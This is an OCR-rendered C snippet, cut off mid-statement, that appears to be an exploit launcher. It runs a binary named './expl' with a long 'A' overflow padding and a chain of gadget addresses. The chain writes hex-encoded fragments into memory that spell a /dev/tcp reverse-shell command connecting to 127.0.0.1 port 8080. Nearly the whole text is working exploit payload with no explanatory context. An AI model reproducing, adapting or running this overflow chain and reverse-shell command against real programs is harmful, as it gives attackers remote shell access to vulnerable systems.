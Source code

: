 ```c
	execl("./expl", "./expl", "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xd5\x8e\x40", "", "", "", "", "\x65\x63\x68\x6f\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x21\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x21\x22\x2f\x62\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x25\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x69\x6e\x2f\x73\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x29\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x68\x21\x3e\x26\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x2d\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x21\x2f\x64\x65\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x31\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x76\x2f\x74\x63\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x35\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x70\x2f\x31\x32\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x39\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x37\x2e\x30\x2e\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x3d\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x30\x2e\x31\x2f\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x41\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x38\x30\x38\x30\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x45\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "
```